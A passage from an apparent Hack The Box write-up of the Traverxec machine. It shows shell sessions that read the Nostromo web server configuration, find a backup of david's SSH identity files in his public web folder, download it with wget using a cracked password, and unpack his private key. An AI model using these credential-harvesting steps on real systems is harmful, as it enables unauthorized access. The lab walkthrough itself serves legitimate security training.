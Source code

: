 We can now try this password to login as David via SSH.

```bash
luc@kali:~/HTB/Traverxec$ ssh david@10.10.10.165
david@10.10.10.165's password:
Permission denied, please try again.
```

Too bad the password is useless so we'll need to find another attack.

### Access to sub directory

Going back to the `nhttpd.conf` we can see another part that could be interesting.

```bash
www-data@traverxec:/var/nostromo/conf$ cat nhttpd.conf
...
# HOMEDIRS [OPTIONAL]

homedirs                /home
homedirs_public         public_www
```

We don't have access to read the content of `/home/david`, but we can see that the `homedirs_public` setting is enabled in Nostromo. This setting allows users to serve files from the users home directory via HTTP. Browsing to `http://10.10.10.165/~david/` shows that David uses this functionality because a webpage shows up.

```bash
www-data@traverxec:/$ cd /home/david/
www-data@traverxec:/home/david$ ls
ls: cannot open directory '.': Permission denied
www-data@traverxec:/home/david$ cd public_www
www-data@traverxec:/home/david/public_www$ ls
index.html  protected-file-area
www-data@traverxec:/home/david/public_www$ ls -R
.:
index.html  protected-file-area

./protected-file-area:
backup-ssh-identity-files.tgz
```

We can upload this tgz file to our machine via our reverse shell, but we can also use the fact that these files are served over HTTP. Doing it this way also tests to see if the hash we cracked earlier was correct.

```bash
luc@kali:~/HTB/Traverxec$ wget http://10.10.10.165/~david/protected-file-area/backup-ssh-identity-files.tgz --http-user=david --http-password=Nowonly4me
luc@kali:~/HTB/Traverxec$ file backup-ssh-identity-files.tgz
backup-ssh-identity-files.tgz: gzip compressed data, last modified: Fri Oct 25 21:02:59 2019, from Unix, original size modulo 2^32 10240
luc@kali:~/HTB/Traverxec$ tar -xvf backup-ssh-identity-files.tgz
home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub
```

